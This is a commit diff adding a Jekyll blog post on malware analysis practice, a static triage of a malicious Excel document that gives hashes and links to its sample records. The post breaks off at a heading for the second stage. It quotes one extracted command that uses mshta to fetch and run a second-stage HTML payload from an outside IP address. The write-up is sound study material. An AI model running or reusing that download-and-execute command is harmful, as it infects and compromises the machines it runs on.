

Before and after one commit to seizethecheese/seizethecheese.github.io, a Jekyll site: the page built from _posts/2022-01-29-post.md, in a window 1280 px wide. Shown: the whole page at 85% size, without its empty margins (299-1249 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update 2022-01-29-post.md

```diff
--- a/_posts/2022-01-29-post.md
+++ b/_posts/2022-01-29-post.md
@@ -3,3 +3,34 @@ layout: page
 title:Malware Analysis Practice(Maldoc) #1
 permalink: /lemon-mockingbird-north-alanine
 ---
+
+# Analysis of lemon-mockingbird-north-alanine
+
+asparagus-potato-london-march is a sample I downloaded from MalwareBazaar that was uploaded by [@Cryptolaemus1](https://twitter.com/Cryptolaemus1/), a link to the sample is below. The bulk of this analysis is based on techniques I have learned from [@HuskyHacksMK](https://twitter.com/HuskyHacksMK)'s Practical Malware Analysis & Triage course.
+
+Sample source: [https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/](https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/)
+
+---
+
+## Static Analysis xlsx file
+
+### File Hashes
+I pulled the below hashes using hashcalc.
+
+- MD5: db00ce44029164d0695bafc91fa67413
+- SHA1: a7c0195d74d5be9c44638957c704eb76ef749c17
+- SHA256: c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7
+
+### VirusTotal
+I was able to find a hit when searching the file hash in VT. There is some good information, interestingly only 8/60 vendors flag the file as mailicious.
+
+VirusTotal - [https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7](https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7)
+
+### Strings
+I used strings to pull all strings from the sample. One string really stood out and it looked very useful.
+
+cmd /c set kiki=mshta http://91.240.118.172/mm/nn/se.html & echo %kiki% | cmdB
+
+From here I went out on a limb and guessed this was a second stage and used any.run to pull a copy the html file safely. The any.run analysis where you can download a copy of he.html is here: [https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/](https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/)
+
+## Static Analysis second stage se.html
```
